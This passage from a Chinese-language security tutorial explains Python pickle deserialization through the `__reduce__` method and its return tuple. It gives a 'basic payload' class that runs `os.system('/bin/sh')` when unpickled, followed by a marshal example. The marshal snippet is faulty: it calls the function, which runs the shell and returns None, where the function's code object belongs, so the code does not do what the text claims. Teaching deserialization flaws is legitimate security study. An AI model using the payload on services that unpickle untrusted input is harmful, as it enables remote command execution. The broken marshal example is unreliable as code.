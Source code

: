 简单来说, `__reduce__()`魔术方法类似于`PHP`中的`__wakeup()`方法, 在反序列化时会先调用`__reduce__()`魔术方法. 
 1. 如果返回值是一个字符串, 那么将会去当前作用域中查找字符串值对应名字的对象, 将其序列化之后返回.
 2. 如果返回值是一个元组, 要求是`2`到`6`个参数(`Python3.8`新加入元组的第六项).
    1. 第一个参数是可调用的对象.
    2. 第二个是该对象所需的参数元组, 如果可调用对象不接受参数则必须提供一个空元组.
    3. 第三个是用于表示对象的状态的可选元素, 将被传给前述的`__setstate__()`方法, 如果对象没有此方法, 则这个元素必须是字典类型并会被添加至`__dict__`属性中.
    4. 第四个是用于返回连续项的迭代器的可选元素.
    5. 第五个是用于返回连续键值对的迭代器的可选元素.
    6. 第六个是一个带有`(obj, state)`签名的可调用对象的可选元素.

## 基本 Payload

```python
import os
import pickle

class Demo(object):
    def __reduce__(self):
        shell = '/bin/sh'
        return (os.system,(shell,))

demo = Demo()
pickle.loads(pickle.dumps(demo))
```

<div align=center><img src="./images/6.png"></div>

# Marshal 反序列化
由于`pickle`无法序列化`code`对象, 因此在`python2.6`后增加了一个`marshal`模块来处理`code`对象的序列化问题.

```pyhon
import base64
import marshal

def demo():
    import os
    os.system('/bin/sh')

code_serialized = base64.b64encode(marshal.dumps(demo()))
print(code_serialized)
```

<div align=center><img src="./images/7.png"></div>
